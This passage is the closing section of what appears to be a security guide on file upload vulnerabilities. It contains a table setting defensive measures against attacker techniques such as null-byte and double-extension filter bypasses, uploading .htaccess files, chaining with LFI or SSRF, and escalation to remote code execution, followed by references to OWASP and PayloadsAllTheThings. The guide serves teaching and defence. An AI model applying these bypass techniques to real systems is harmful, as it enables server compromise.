| Validate magic bytes, not just headers | Bypass client-side checks immediately |
| Rename files to random UUIDs on server | Try double extensions, null bytes, case tricks |
| Store files outside webroot or disable execution | Upload `.htaccess`/`.user.ini` if allowed |
| Enforce size limits & scan for malware | Chain with LFI, SSRF, or image processing libs |
| Never trust `originalname` or `Content-Type` | Use race conditions for time-of-check flaws |
| Apply restrictive permissions (`644`/`755`) | Always attempt RCE escalation |


---

## References

- [OWASP — Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [PortSwigger — File Upload Vulnerabilities](https://portswigger.net/web-security/file-upload)
- [HackTricks — File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload)
- [PayloadsAllTheThings — File Upload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)
- [ImageTragick / CVE-2016-3714](https://imagetragick.com/)
- [Zip Slip Vulnerability](https://snyk.io/research/zip-slip-vulnerability)
- [Bug Bounty Bootcamp — File Upload Chapter](https://nostarch.com/bug-bounty-bootcamp)


---

*Last updated: January 15, 2024*
*Author: Security Researcher*
*License: MIT*
```
